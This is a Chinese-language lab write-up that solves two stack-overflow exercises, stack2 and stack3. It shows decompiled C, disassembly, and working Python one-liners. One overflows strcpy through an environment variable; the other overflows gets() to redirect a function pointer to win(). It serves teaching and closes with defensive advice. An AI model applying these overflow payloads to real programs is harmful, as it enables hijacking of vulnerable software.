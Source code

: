 # <center>栈溢出实验2</center>

## 实验概述

### 【目的】
1. 运行stack2，获得输出`you have correctly modified the variable`
2. 运行stack3，获得输出`code flow successfully changed`
### 【环境】
Linux
### 【工具】
python,IDA pro
### 【原理】
缓冲区溢出（buffer overflow），是针对程序设计缺陷，向程序输入缓冲区写入使之溢出的内容（通常是超过缓冲区能保存的最大数据量的数据），从而破坏程序运行、趁著中断之际并获取程序乃至系统的控制权。
## 实验步骤

### 【步骤】

#### stack2

```
$ binwalk stack2

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             ELF, 32-bit LSB executable, Intel 80386, version 1 (SYSV)
```
打开IDA进行分析。
```c#
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char dest; // [sp+8h] [bp-50h]@3
  int v5; // [sp+48h] [bp-10h]@3
  char *src; // [sp+4Ch] [bp-Ch]@1

  src = getenv("GREENIE");
  if ( !src )
    errx(1, "please set the GREENIE environment variable\n");
  v5 = 0;
  strcpy(&dest, src);
  if ( v5 == 218762506 )
    puts("you have correctly modified the variable");
  else
    printf("Try again, you got 0x%08x\n", v5);
  return 0;
}
```
跟实验一的stack1差不多，我们可以发现危险函数`strcpy(&dest, src);`
这里要控制src变量的值，需要自定义环境变量GREENIE，在Linux中，使用 `export 变量=值`
可以改变当前环境变量的值，于是有：
```
lometsj@ubuntu:~/prostar$ export GREENIE=`python -c 'print "A"*64 + "\x0a\x0d\x0a\x0d"'`
lometsj@ubuntu:~/prostar$ echo $GREENIE
 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
lometsj@ubuntu:~/prostar$ ./stack2
you have correctly modified the variable

```

#### stack2
```
$ binwalk stack3

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             ELF, 32-bit LSB executable, Intel 80386, version 1 (SYSV)

```

```c#
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [sp+Ch] [bp-4Ch]@1
  void (*v5)(void); // [sp+4Ch] [bp-Ch]@1

  v5 = 0;
  gets(&s);
  if ( v5 )
  {
    printf("calling function pointer, jumping to 0x%08x\n", v5);
    v5();
  }
  return 0;
}
int win()
{
  return puts("code flow successfully changed");
}
```
```
.text:0804846B                 public win
.text:0804846B win             proc near
.text:0804846B                 push    ebp
.text:0804846C                 mov     ebp, esp
.text:0804846E                 sub     esp, 8
.text:08048471                 sub     esp, 0Ch
.text:08048474                 push    offset s        ; "code flow successfully changed"
.text:08048479                 call    _puts
.text:0804847E                 add     esp, 10h
.text:08048481                 nop
.text:08048482                 leave
.text:08048483                 retn
.text:08048483 win             endp
```
可以发现危险函数`gets(&s);`,观察可以发现，当v5不为0时，程序会跳转到v5指向的地址执行，这里我们把v5指向函数`int win()`的地址，可以得到输出`code flow successfully changed`。

```
$ python -c "print 'a'*64 + '\x6b\x84\x04\x08'" | ./stack3
calling function pointer, jumping to 0x0804846b
code flow successfully changed

```
可以看到我们通过溢出成功跳转到了win函数执行代码。
### 【总结】
这次实验通过栈溢出简单的熟悉了Linux下环境变量的设置和c语言的函数指针，需要注意的是，通过export设置的环境变量只对当前终端有效。
可以发现，要使栈溢出发生，要满足以下条件：

- 程序允许用户输入
- 程序对用户的输入长度不加检查

栈溢出攻击是最为普遍而又危害极大的漏洞，要防御栈溢出攻击，首先要有良好的编码功力，对于用户的输入数据要做严格的长度检查，避免使用危险的函数。

